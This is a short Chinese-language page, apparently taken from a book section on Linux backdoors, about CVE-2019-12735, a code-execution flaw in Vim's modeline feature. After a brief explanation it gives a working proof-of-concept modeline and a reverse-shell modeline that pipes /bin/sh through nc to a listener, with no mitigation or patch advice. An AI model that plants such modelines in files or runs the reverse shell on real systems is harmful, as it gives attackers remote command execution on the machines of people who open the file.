

# （CVE-2019-12735）vim modeline

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/9.html](http://book.iwonder.run/安全技术/Linux 后门/9.html)

该漏洞存在于编辑器的 modeline 功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim 默认关闭 modeline。 开启：

```
vim ~/.vimrc
//文件内容为
set modeline 
```

```
poc:
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```


反弹 shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1  9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```



